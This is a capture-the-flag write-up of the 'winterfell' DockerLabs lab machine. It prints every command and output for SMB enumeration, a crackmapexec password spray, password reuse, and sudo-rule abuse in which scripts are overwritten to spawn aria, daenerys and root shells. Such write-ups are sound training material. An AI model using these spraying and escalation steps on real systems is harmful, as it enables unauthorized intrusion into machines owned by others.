

# winterfell

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| winterfell | Zunderrub | easy/facil | dockerlabs |

**Summary:** The winterfell machine was a Game of Thrones themed SMB and sudo escalation challenge. Reconnaissance revealed SSH, HTTP, and Samba services. SMB enumeration with enum4linux exposed three Unix users (`jon`, `aria`, and `daenerys`) and a `shared` share. A crackmapexec password spraying attempt against a small user and wordlist cracked the account `jon` with the password `seacercaelinvierno`, granting read and write access to the `shared` share, which contained a file named `proteccion_del_reino` that held a base64 encoded message. Decoding it yielded the string `hijodelanister`. Because the attacker's own home share for `jon` was also readable, the `.mensaje.py` script and the `paraJon` note were pulled down, revealing a Python hashing utility that only executed for `jon` or `aria`. Reusing the recovered credential confirmed that `daenerys` used the same password, but the actual foothold was obtained by logging into SSH as `jon` with `hijodelanister`. Once inside, `sudo -l` showed that `jon` could execute `/home/jon/.mensaje.py` as `aria` without a password, so the script was swapped for a malicious one-liner that spawned a shell, landing as `aria`. The `aria` account could run `/usr/bin/cat` and `/usr/bin/ls` as `daenerys` without a password, which allowed reading `/home/daenerys/mensajeParaJon` to recover the plaintext password `!drakaris!`. A `su - daenerys` switch worked and revealed that `daenerys` could run `/usr/bin/bash /home/daenerys/.secret/.shell.sh` as any user without a password. Since the root owned `.secret` directory was traversable and the script itself was owned by `daenerys`, the script was overwritten with a simple `/bin/bash` payload and executed with sudo to obtain a fully privileged root shell.

---

## Reconnaissance

**1. Machine Deployment**

The engagement began by deploying the vulnerable machine using the DockerLabs automation script.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ sudo bash auto_deploy.sh winterfell.tar  
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                          
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

A full port scan was then conducted against the target to enumerate all running services.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-05 13:14 +0700
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000012s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 39:f8:44:51:19:1a:a9:78:c2:21:e6:19:d3:1e:41:96 (ECDSA)
|_  256 43:9b:ac:9c:d3:0c:ad:95:44:3a:c3:fb:9e:df:3e:a2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Juego de Tronos
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
MAC Address: 42:52:C9:FF:6F:34 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-08-05T06:15:05
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.30 seconds
```

The scan revealed three open services: OpenSSH on port 22, Apache HTTP on port 80 serving a page titled "Juego de Tronos", and Samba on ports 139 and 445. The SMB service immediately became the primary target.

**3. SMB Enumeration**

SMB enumeration was performed using enum4linux to extract users, shares, and system information.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ enum4linux -a 172.17.0.2
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Aug  5 13:18:57 2026

 =========================================( Target Information )=========================================

Target ........... 172.17.0.2
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =============================( Enumerating Workgroup/Domain on 172.17.0.2 )=============================


[E] Can't find workgroup/domain


 =================================( Nbtstat Information for 172.17.0.2 )=================================

Looking up status of 172.17.0.2
No reply from 172.17.0.2

 ====================================( Session Check on 172.17.0.2 )====================================


[+] Server 172.17.0.2 allows sessions using username '', password ''


 =================================( Getting domain SID for 172.17.0.2 )=================================

Domain Name: WORKGROUP
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup


 ====================================( OS information on 172.17.0.2 )====================================


[E] Can't get OS info with smbclient


[+] Got OS info for 172.17.0.2 from srvinfo: 
        40DAE7F022E6   Wk Sv PrQ Unx NT SNT Samba 4.17.12-Debian
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03


 ========================================( Users on 172.17.0.2 )========================================

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: jon      Name:   Desc: 

user:[jon] rid:[0x3e8]

 ==================================( Share Enumeration on 172.17.0.2 )==================================

smbXcli_negprot_smb1_done: No compatible protocol selected by server.

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shared          Disk      
        IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
        nobody          Disk      Home Directories
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 172.17.0.2

//172.17.0.2/print$     Mapping: DENIED Listing: N/A Writing: N/A
//172.17.0.2/shared     Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_CONNECTION_REFUSED listing \*
//172.17.0.2/IPC$       Mapping: N/A Listing: N/A Writing: N/A
//172.17.0.2/nobody     Mapping: DENIED Listing: N/A Writing: N/A

 =============================( Password Policy Information for 172.17.0.2 )=============================

Password: 


[+] Attaching to 172.17.0.2 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] 40DAE7F022E6
        [+] Builtin

[+] Password Info for Domain: 40DAE7F022E6

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 136 years 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 136 years 37 days 6 hours 21 minutes 


[+] Retieved partial password policy with rpcclient:


Password Complexity: Disabled
Minimum Password Length: 5


 ========================================( Groups on 172.17.0.2 )========================================


[+] Getting builtin groups:


[+]  Getting builtin group memberships:


[+]  Getting local groups:


[+]  Getting local group memberships:


[+]  Getting domain groups:


[+]  Getting domain group memberships:


 ===================( Users on 172.17.0.2 via RID cycling (RIDS: 500-550,1000-1050) )===================


[I] Found new SID: 
S-1-22-1

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[+] Enumerating users using SID S-1-5-21-4202603394-2413290352-2151013823 and logon username '', password ''

S-1-5-21-4202603394-2413290352-2151013823-501 40DAE7F022E6\nobody (Local User)
S-1-5-21-4202603394-2413290352-2151013823-513 40DAE7F022E6\None (Domain Group)
S-1-5-21-4202603394-2413290352-2151013823-1000 40DAE7F022E6\jon (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\jon (Local User)
S-1-22-1-1001 Unix User\aria (Local User)
S-1-22-1-1002 Unix User\daenerys (Local User)

 ================================( Getting printer info for 172.17.0.2 )================================

No printers returned.


enum4linux complete on Wed Aug  5 13:19:44 2026
```

Enum4linux revealed four SMB shares (`print$`, `shared`, `IPC$`, and `nobody`) and, through RID cycling, three Unix users: `jon`, `aria`, and `daenerys`. The `shared` share stood out as an anonymous target of interest.

**4. Web Enumeration**

Directory brute-forcing was performed against the Apache web server to discover hidden resources.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,zip,tar,env,css,txt,bak,js,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 1729]
styles.css           (Status: 200) [Size: 1179]
dragon               (Status: 301) [Size: 309] [--> http://172.17.0.2/dragon/]
server-status        (Status: 403) [Size: 275]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```



Gobuster found an `index.html`, a `styles.css`, and a redirected `dragon` directory, which suggests the web application holds further Game of Thrones themed content. The SMB attack surface remained the most promising, so the focus shifted back to the Samba shares.

---

## Initial Access

**1. SMB Credential Cracking**

A password spraying attempt was launched with crackmapexec using a small list of usernames and passwords.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ crackmapexec smb $ip -u u.txt -p w.txt
SMB         172.17.0.2      445    40DAE7F022E6     [*] Windows 6.1 Build 0 (name:40DAE7F022E6) (domain:40DAE7F022E6) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    40DAE7F022E6     [+] 40DAE7F022E6\jon:seacercaelinvierno 
                                                                                                             
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ smbclient //172.17.0.2/shared -U jon%seacercaelinvierno
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 17 03:26:00 2024
  ..                                  D        0  Wed Jul 17 03:25:59 2024
  proteccion_del_reino                N      313  Wed Jul 17 03:26:00 2024

                1055762868 blocks of size 1024. 966397808 blocks available
smb: \> get proteccion_del_reino 
getting file \proteccion_del_reino of size 313 as proteccion_del_reino (43.7 KiloBytes/sec) (average 43.7 KiloBytes/sec)
smb: \> exit
```

The spray validated the credentials `jon:seacercaelinvierno`. Logging into the `shared` share with smbclient and listing its contents revealed a single file named `proteccion_del_reino`, which was downloaded to the attacking machine.

**2. Share Permission Enumeration**

The permissions over each share were enumerated for the validated `jon` account.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ crackmapexec smb 172.17.0.2 -u jon -p seacercaelinvierno --shares
SMB         172.17.0.2      445    40DAE7F022E6     [*] Windows 6.1 Build 0 (name:40DAE7F022E6) (domain:40DAE7F022E6) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    40DAE7F022E6     [+] 40DAE7F022E6\jon:seacercaelinvierno 
SMB         172.17.0.2      445    40DAE7F022E6     [+] Enumerated shares
SMB         172.17.0.2      445    40DAE7F022E6     Share           Permissions     Remark
SMB         172.17.0.2      445    40DAE7F022E6     -----           -----------     ------
SMB         172.17.0.2      445    40DAE7F022E6     print$          READ            Printer Drivers
SMB         172.17.0.2      445    40DAE7F022E6     shared          READ,WRITE      
SMB         172.17.0.2      445    40DAE7F022E6     IPC$                            IPC Service (Samba 4.17.12-Debian)
SMB         172.17.0.2      445    40DAE7F022E6     jon             READ            Home Directories
```

The enumeration confirmed `jon` had read and write access to `shared`, read access to his own home share, and read access to `print$`.

**3. Reading the Downloaded File**

The downloaded `proteccion_del_reino` file was inspected.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ cat proteccion_del_reino    
Aria de ti depende que los caminantes blancos no consigan pasar el muro. 
Tienes que llevar a la reina Daenerys el mensaje, solo ella sabra interpretarlo. Se encuentra cifrado en un lenguaje antiguo y dificil de entender. 
Esta es mi contraseña, se encuentra cifrada en ese lenguaje y es -> aGlqb2RlbGFuaXN0ZXI=
```

The file contained a Game of Thrones themed message. It told Jon to carry a message to Queen Daenerys and included what appeared to be an encrypted password: `aGlqb2RlbGFuaXN0ZXI=`. The trailing equals sign gave away that this was base64 encoded.

**4. Decoding the Password**

The encoded string was decoded with base64.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d                                                          
hijodelanister
```

The decoded value was `hijodelanister`, a plaintext password hidden inside the Samba share.

**5. Accessing jon's Home Share**

Because `jon` had read access to his own home directory share, smbclient was used to connect to it and pull down its contents.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ smbclient //172.17.0.2/jon -U jon%seacercaelinvierno
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 17 16:17:11 2024
  ..                                  D        0  Wed Jul 17 03:25:58 2024
  .bash_logout                        H      220  Sat Mar 30 02:40:10 2024
  .profile                            H      807  Sat Mar 30 02:40:10 2024
  .bashrc                             H     3526  Sat Mar 30 02:40:10 2024
  .local                             DH        0  Wed Jul 17 16:15:11 2024
  .mensaje.py                         H      608  Wed Jul 17 16:17:10 2024
  .bash_history                       H      128  Wed Jul 17 16:16:18 2024
  paraJon                             N      103  Wed Jul 17 03:26:00 2024

                1055762868 blocks of size 1024. 966333260 blocks available
smb: \> get .mensaje.py
getting file \.mensaje.py of size 608 as .mensaje.py (84.8 KiloBytes/sec) (average 84.8 KiloBytes/sec)
smb: \> get .bash_history 
getting file \.bash_history of size 128 as .bash_history (15.6 KiloBytes/sec) (average 47.9 KiloBytes/sec)
smb: \> get paraJon 
getting file \paraJon of size 103 as paraJon (14.4 KiloBytes/sec) (average 37.2 KiloBytes/sec)
smb: \> exit
```

The listing exposed a `.bash_history` file, a hidden Python script named `.mensaje.py`, and a note named `paraJon`. All three were downloaded for analysis.

**6. Analyzing the Leaked Files**

The three downloaded files were examined.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ cat .bash_history       
ls
cd home
ls
cd jon/
ls
ls -la
python3 .mensaje.py 
nano .mensaje.py 
exit
python3 .mensaje.py 
exit
python3 .mensaje.py 
exit
                                                                                                             
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ cat paraJon             
Jon para todos los mensajes que quieras encriptar debes de usar la herramienta oculta que te he dejado
                                                                                                             
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ cat .mensaje.py 
import hashlib
import getpass

def encriptar_mensaje():
    mensaje = input('Ingrese el mensaje que desea encriptar: ')

    mensaje_bytes = mensaje.encode('utf-8')

    hash_obj = hashlib.sha256()

    hash_obj.update(mensaje_bytes)

    hash_resultado = hash_obj.hexdigest()

    print(f'Mensaje Original: {mensaje}')
    print(f'Hash SHA-256: {hash_resultado}')

if __name__ == '__main__':
    usuario_actual = getpass.getuser()
    
    if usuario_actual == 'jon' or usuario_actual == 'aria':
        encriptar_mensaje()
    else:
        print('Lo siento, no tienes permiso para ejecutar este script.')
```

The `.bash_history` showed repeated executions of `.mensaje.py` as `jon`. The `paraJon` note pointed Jon to a hidden tool for encrypting messages, and `.mensaje.py` was a Python script that computed a SHA256 hash and only allowed execution when the current user was `jon` or `aria`. This script would become the pivot point for privilege escalation.

**7. Validating daenerys Credentials**

The decoded password was tested against the other discovered users with crackmapexec.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ crackmapexec smb 172.17.0.2 -u daenerys -p hijodelanister
SMB         172.17.0.2      445    40DAE7F022E6     [*] Windows 6.1 Build 0 (name:40DAE7F022E6) (domain:40DAE7F022E6) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    40DAE7F022E6     [+] 40DAE7F022E6\daenerys:hijodelanister 
```

The account `daenerys` reused the same password `hijodelanister`. Its share permissions were enumerated next.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ crackmapexec smb 172.17.0.2 -u daenerys -p hijodelanister --shares
SMB         172.17.0.2      445    40DAE7F022E6     [*] Windows 6.1 Build 0 (name:40DAE7F022E6) (domain:40DAE7F022E6) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    40DAE7F022E6     [+] 40DAE7F022E6\daenerys:hijodelanister 
SMB         172.17.0.2      445    40DAE7F022E6     [+] Enumerated shares
SMB         172.17.0.2      445    40DAE7F022E6     Share           Permissions     Remark
SMB         172.17.0.2      445    40DAE7F022E6     -----           -----------     ------
SMB         172.17.0.2      445    40DAE7F022E6     print$                          Printer Drivers
SMB         172.17.0.2      445    40DAE7F022E6     shared                          
SMB         172.17.0.2      445    40DAE7F022E6     IPC$                            IPC Service (Samba 4.17.12-Debian)
SMB         172.17.0.2      445    40DAE7F022E6     nobody                          Home Directories
```

**8. SSH Access as jon**

With the recovered password in hand, SSH access was established as the user `jon`.

```bash
cred= jon:hijodelanister
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winterfell]
└─$ ssh jon@172.17.0.2
jon@172.17.0.2's password: 
Linux 40dae7f022e6 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jon@40dae7f022e6:~$ id;whoami;hostname
uid=1000(jon) gid=1000(jon) groups=1000(jon)
jon
40dae7f022e6
jon@40dae7f022e6:~$ ls -la
total 36
drwxr-xr-x 1 jon  jon  4096 Jul 17  2024 .
drwxr-xr-x 1 root root 4096 Jul 16  2024 ..
-rw------- 1 jon  jon   128 Jul 17  2024 .bash_history
-rw-r--r-- 1 jon  jon   220 Mar 29  2024 .bash_logout
-rw-r--r-- 1 jon  jon  3526 Mar 29  2024 .bashrc
drwxr-xr-x 3 jon  jon  4096 Jul 17  2024 .local
-rwxrwxr-x 1 aria aria  608 Jul 17  2024 .mensaje.py
-rw-r--r-- 1 jon  jon   807 Mar 29  2024 .profile
-rw-r--r-- 1 root root  103 Jul 16  2024 paraJon
```

The SSH session landed in the home directory of `jon`. Notably, the `.mensaje.py` file was owned by `aria`, which hinted at the upcoming escalation path. A check of sudo rights was performed immediately.

```bash
jon@40dae7f022e6:~$ sudo -l
Matching Defaults entries for jon on 40dae7f022e6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User jon may run the following commands on 40dae7f022e6:
    (aria) NOPASSWD: /usr/bin/python3 /home/jon/.mensaje.py
```

`jon` could run `/usr/bin/python3 /home/jon/.mensaje.py` as `aria` without a password. Since `jon` owned the directory and had write permission on the file, the script could be replaced with a malicious payload.

---

## Privilege Escalation

**1. Escalation from jon to aria**

The `.mensaje.py` script was backed up and replaced with a one line Python payload that spawns a bash shell, then the sudo rule was triggered.

```bash
jon@40dae7f022e6:~$ mv .mensaje.py .mensaje.py.bak
jon@40dae7f022e6:~$ echo 'import os; os.system("/bin/bash")' > /home/jon/.mensaje.py
jon@40dae7f022e6:~$ sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py 
aria@40dae7f022e6:/home/jon$ cd
aria@40dae7f022e6:~$ id
uid=1001(aria) gid=1001(aria) groups=1001(aria)
```

The sudo invocation executed the attacker controlled Python script as `aria`, and the embedded `os.system("/bin/bash")` call produced an interactive shell with uid 1001. The escalation to `aria` succeeded.

**2. Escalation from aria to daenerys**

The sudo rights of `aria` were inspected next.

```bash
Matching Defaults entries for aria on 40dae7f022e6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User aria may run the following commands on 40dae7f022e6:
    (daenerys) NOPASSWD: /usr/bin/cat, /usr/bin/ls
aria@40dae7f022e6:~$ sudo -u daenerys /usr/bin/ls -la /home/daenerys/
total 32
drwx------ 1 daenerys daenerys 4096 Jul 16  2024 .
drwxr-xr-x 1 root     root     4096 Jul 16  2024 ..
-rw-r--r-- 1 daenerys daenerys  220 Mar 29  2024 .bash_logout
-rw-r--r-- 1 daenerys daenerys 3526 Mar 29  2024 .bashrc
-rw-r--r-- 1 daenerys daenerys  807 Mar 29  2024 .profile
drwxr-xr-x 1 root     root     4096 Jul 16  2024 .secret
-rw-rw-r-- 1 daenerys daenerys  277 Jul 16  2024 mensajeParaJon
```

`aria` could run `/usr/bin/cat` and `/usr/bin/ls` as `daenerys` without a password. Listing the daenerys home directory revealed a `mensajeParaJon` file and a root owned `.secret` directory. The message file was read.

```bash
cred: daenerys:drakaris:
aria@40dae7f022e6:~$ sudo -u daenerys /usr/bin/ls -la /home/daenerys/
total 32
drwx------ 1 daenerys daenerys 4096 Jul 16  2024 .
drwxr-xr-x 1 root     root     4096 Jul 16  2024 ..
-rw-r--r-- 1 daenerys daenerys  220 Mar 29  2024 .bash_logout
-rw-r--r-- 1 daenerys daenerys 3526 Mar 29  2024 .bashrc
-rw-r--r-- 1 daenerys daenerys  807 Mar 29  2024 .profile
drwxr-xr-x 1 root     root     4096 Jul 16  2024 .secret
-rw-rw-r-- 1 daenerys daenerys  277 Jul 16  2024 mensajeParaJon
aria@40dae7f022e6:~$ sudo -u daenerys /usr/bin/cat /home/daenerys/mensajeParaJon
Aria estare encantada de ayudar a Jon con la guerra en el norte, siempre y cuando despues Jon cumpla y me ayude a  recuperar el trono de hierro. 
Te dejo en este mensaje la contraseña de mi usuario por si necesitas llamar a uno de mis dragones desde tu ordenador.

!drakaris!
aria@40dae7f022e6:~$ su - daenerys
Password: 
daenerys@40dae7f022e6:~$ id 
uid=1002(daenerys) gid=1002(daenerys) groups=1002(daenerys)
```

The message from Daenerys contained her plaintext password `!drakaris!`. The `su - daenerys` command with that password switched the session to the `daenerys` account successfully, confirming uid 1002.

**3. Escalation from daenerys to root**

The sudo rights of `daenerys` were checked.

```bash
daenerys@40dae7f022e6:~$ sudo -l
Matching Defaults entries for daenerys on 40dae7f022e6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User daenerys may run the following commands on 40dae7f022e6:
    (ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh
daenerys@40dae7f022e6:~$ ls -ld .secret/
drwxr-xr-x 1 root root 4096 Jul 16  2024 .secret/
daenerys@40dae7f022e6:~$ ls -la .secret/.shell.sh 
-rwxr-xr-x 1 daenerys daenerys 57 Jul 16  2024 .secret/.shell.sh
```

`daenerys` could run `/usr/bin/bash /home/daenerys/.secret/.shell.sh` as any user without a password. Although the `.secret` directory was owned by root, the directory was traversable and the `.shell.sh` script itself was owned by `daenerys`, which meant its contents could be replaced. The script was overwritten with a simple bash launcher and executed through sudo.

```bash
daenerys@40dae7f022e6:~$ cat > /home/daenerys/.secret/.shell.sh << 'EOF'
> #!/bin/bash
> /bin/bash
> EOF
daenerys@40dae7f022e6:~$ sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh
root@40dae7f022e6:/home/daenerys# cd
root@40dae7f022e6:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
40dae7f022e6
```

The sudo execution ran the tampered `.shell.sh`, which simply launched `/bin/bash`. Because sudo executed it as root, the resulting shell had uid 0, achieving full root compromise of the winterfell machine.

---

## Attack Chain Summary
1. **Reconnaissance**: A full TCP port scan with `nmap -sC -sV -p- -T4` identified three open services: OpenSSH on port 22, Apache HTTP on port 80 serving a "Juego de Tronos" page, and Samba on ports 139 and 445. Enum4linux enumerated the shares `print$`, `shared`, `IPC$`, and `nobody`, and revealed the Unix users `jon`, `aria`, and `daenerys`.
2. **Vulnerability Discovery**: Gobuster found an `index.html`, `styles.css`, and a redirected `dragon` directory on the web server, while the SMB attack surface proved far more fruitful. A crackmapexec password spray validated `jon:seacercaelinvierno`, and a readable `shared` share exposed the file `proteccion_del_reino` containing a base64 encoded password.
3. **Exploitation**: The base64 value decoded to `hijodelanister`, which was reused as the SSH password for `jon`. The same credential also validated the `daenerys` account on SMB. The `jon` home share leaked the `.mensaje.py` script, the `paraJon` note, and the `.bash_history`, which together revealed a hidden hashing tool gated to run only as `jon` or `aria`.
4. **Internal Enumeration**: Once authenticated as `jon`, `sudo -l` revealed a passwordless rule to execute `/home/jon/.mensaje.py` as `aria`. The script was replaced with a `os.system("/bin/bash")` payload and triggered through sudo to gain an `aria` shell. The `aria` account in turn held passwordless `cat` and `ls` rights as `daenerys`, which allowed reading `/home/daenerys/mensajeParaJon` to recover the plaintext password `!drakaris!`.
5. **Privilege Escalation**: A `su - daenerys` switch with the recovered password led to the final privilege boundary, where `daenerys` could run `/usr/bin/bash /home/daenerys/.secret/.shell.sh` as any user without a password. Because `daenerys` owned the target script, it was overwritten with a `/bin/bash` payload and executed through sudo, spawning a root shell and completing the full chain.
